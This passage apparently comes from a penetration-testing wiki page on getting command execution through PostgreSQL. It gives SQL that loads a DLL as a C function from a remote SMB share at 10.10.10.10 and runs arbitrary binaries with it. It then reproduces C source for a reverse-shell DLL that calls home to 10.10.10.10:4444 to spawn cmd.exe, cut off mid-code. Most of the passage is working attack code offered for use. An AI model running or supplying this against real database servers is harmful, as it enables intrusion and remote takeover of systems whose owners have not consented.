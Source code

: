 You can find the DLL compiled in this zip:

{{#file}}
pgsql_exec.zip
{{#endfile}}

You can indicate to this DLL **which binary to execute** and the number of time to execute it, in this example it will execute `calc.exe` 2 times:

```bash
CREATE OR REPLACE FUNCTION remote_exec(text, integer) RETURNS void AS '\\10.10.10.10\shared\pgsql_exec.dll', 'pgsql_exec' LANGUAGE C STRICT;
SELECT remote_exec('calc.exe', 2);
DROP FUNCTION remote_exec(text, integer);
```

In [**here** ](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)you can find this reverse-shell:

```c
#define PG_REVSHELL_CALLHOME_SERVER "10.10.10.10"
#define PG_REVSHELL_CALLHOME_PORT "4444"

#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <winsock2.h>

#pragma comment(lib,"ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

#pragma warning(push)
#pragma warning(disable: 4996)
#define _WINSOCK_DEPRECATED_NO_WARNINGS

BOOL WINAPI DllMain(_In_ HINSTANCE hinstDLL,
                    _In_ DWORD fdwReason,
                    _In_ LPVOID lpvReserved)
{
    WSADATA wsaData;
    SOCKET wsock;
    struct sockaddr_in server;
    char ip_addr[16];
    STARTUPINFOA startupinfo;
    PROCESS_INFORMATION processinfo;

    char *program = "cmd.exe";
    const char *ip = PG_REVSHELL_CALLHOME_SERVER;
    u_short port = atoi(PG_REVSHELL_CALLHOME_PORT);

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    wsock = WSASocket(AF_INET, SOCK_STREAM,
                      IPPROTO_TCP, NULL, 0, 0);

    struct hostent *host;
    host = gethostbyname(ip);
    strcpy_s(ip_addr, sizeof(ip_addr),
             inet_ntoa(*((struct in_addr *)host->h_addr)));

    server.sin_family = AF_INET;
    server.sin_port = htons(port);
    server.sin_addr.s_addr = inet_addr(ip_addr);
```